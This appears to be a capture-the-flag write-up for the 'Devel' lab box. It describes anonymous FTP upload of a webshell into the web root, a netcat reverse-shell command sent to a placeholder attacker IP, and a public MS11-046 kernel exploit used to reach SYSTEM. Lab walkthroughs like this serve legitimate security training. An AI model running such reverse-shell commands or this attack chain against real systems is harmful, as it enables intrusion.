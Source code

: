 # Devel

## Summary

**Vulnerability Exploited:** Arbitrary File Upload

**Vulnerability Explanation:** FTP allows anonymous login and arbitrary file upload to the web root. This makes it trivial to upload a webshell.

**Privilege Escalation Vulnerability:** Windows x86 AFD Privilege Escalation (MS11-046)

## Penetration

We begin with an nmap port scan.

![](screenshots/nmap-tcp.png)

Nmap has already found everything needed for an initial foothod: FTP allows anonymous login, and it is apparently aligned with the HTTP server web root. This means we can upload a web shell to the HTTP server through FTP without needing a username or password. We can also upload a netcat executable so that we can get a normal reverse shell next.

![](screenshots/put-webshell.png)

We can see the webshell at http://\<victim ip\>/cmdasp.aspx.

![](screenshots/webshell-whoami.png)

Now we can launch the reverse shell with netcat using the command **C:\InetPub\wwwroot\nc.exe \<attacker ip\> 443 -e C:\Windows\System32\cmd.exe** in the webshell.

![](screenshots/web-proof.png)

It looks like our iis apppool\web user can't even read the user flag. We need to find a way to escalate. After inspecting the box manually and with winpeas.bat, no clever privilege escalation methods stand out to us. (We have SeImpersonatePrivilege but don't seem to have system token available for impersonation.) Thus we turn to kernel exploits. The easiest way to find an exploit for this operating system is just to Google it.

![](screenshots/google-exploit.png)

Google points us to a promising exploit from ExploitDB. We can compile it locally and upload it through FTP.

![](screenshots/ms11-046.png)

We run the exploit on the victim and get a system shell.

![](screenshots/system-proof.png)

We can now read all the flags.

![](screenshots/user-flag.png)

![](screenshots/root-flag.png)